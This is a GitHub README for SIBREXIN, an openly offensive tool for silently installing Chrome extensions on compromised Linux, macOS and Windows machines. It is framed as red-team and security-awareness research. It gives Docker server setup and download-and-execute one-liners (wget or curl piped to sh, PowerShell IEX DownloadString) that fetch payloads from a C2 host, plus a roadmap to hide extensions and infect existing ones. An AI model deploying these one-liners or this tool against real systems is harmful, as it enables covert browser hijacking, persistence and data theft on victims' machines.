

## 📌 Description

SIBREXIN is a **client-server** tool designed to streamline the **silent installation** of browser extensions without user interaction. It is intended for security testing, research, red teaming, and vendors aiming to enhance their endpoint security solutions.

It consists of two main components:

- **Server-side**: Runs in a Dockerized environment, responsible for generating custom payloads and managing browser extension deployment.
- **Client-side**: Uses Bash and PowerShell one-liners to seamlessly install browser extensions on Linux (Ubuntu), macOS, and Windows.

**Unauthorized use of this tool on systems you do not own or have explicit permission to test may violate applicable laws and regulations.**

---

## 🛠️ Features

- **Silent installation** of Google Chrome extensions without user interaction.
- **Cross-platform support**: Works on Linux (Ubuntu), macOS, and Windows.
- **Dockerized server** for seamless deployment.
- **One-liner commands** for quick execution.
- **Deploy default or custom extensions** for greater flexibility.

---

## 🔍 Security Research & Awareness

This project was created to **raise awareness** about a security issue that allows attackers to silently install browser extensions after system compromise.

- After reporting this to Google's Chromium Security Team, they once again classified the issue as "Won't Fix"; stating that it requires **local or post-compromise access**, which falls outside Chrome's security threat model. While we acknowledge their stance, unless security vendors and professionals take action, this attack vector will remain exploitable.
- Our testing confirms that tested **Antivirus (AV)** and **Endpoint Detection & Response (EDR)** solutions do not currently detect or block this technique. For confidentiality reasons, vendor names will not be disclosed.

---

## 🚀 Installation & Usage

### **Clone the repository**
```bash
git clone https://github.com/t0-n1/SIBREXIN
cd SIBREXIN
```

### **Run the Dockerized Server**
```bash
docker build -t sibrexin .
docker run --rm -it --name sibrexin -p 443:443 \
-v ./cert:/app/cert -v ./download:/app/download -v ./upload:/app/upload \
sibrexin [--hostname <HOSTNAME>] [--extension <EXTENSION_NAME>]
```

Once the server is running, copy and paste the printed one-liners into the target machines. This will silently install the specified browser extension without user interaction.

If no `--hostname` or `--extension` is provided, the server defaults to: 

- Hostname: `127.0.0.1`
- Extension: `pdf-viewer`

### **Custom Extensions and Certificates**

- To use a **custom extension**, place your zipped extension inside `download/extension` directory and reference it with the `--extension` flag (without `.zip`).
- If you have a CA-signed certificate, place `fullchain.pem` and `privkey.pem` in the `cert` directory. Otherwise, the tool will generate a **self-signed certificate**.

### **Using One-Liners**

Below are one-liners for different operating systems:
- If using a **CA-signed certificate**, replace `c2.sibrexin.com` with your hostname.
- If using an **IP address** or **hostname with a self-signed certificate**, use the printed one-liners that ignore insecure certificates.

#### Linux (Ubuntu)
```bash
wget -q https://c2.sibrexin.com/download/client/linux -O - | sh &> /dev/null
```

#### macOS
```bash
curl -s https://c2.sibrexin.com/download/client/macos | sh
```

#### Windows
```powershell
IEX (New-Object Net.WebClient).DownloadString("https://c2.sibrexin.com/download/client/windows")
```

---

## 🔮 Future Roadmap

- Hide extensions from the browser toolbar after installation.
- Compromise installed-by-default extensions.
- Infect previously installed user extensions.
- Integrate with existing C2 agents.
- Expand support beyond Google Chrome to additional browsers.

---

## 📝 References

- [HMAC and "Secure Preferences": Revisiting Chromium-based Browsers Security](https://www.cse.chalmers.se/~andrei/cans20.pdf)
- [SIBREXIN: Installing Browser Extensions Silently](https://medium.com/exness-blog)
- [Weaponizing Chrome Extensions: Abusing the Browser for Persistence](https://www.behind-the-code.com/)
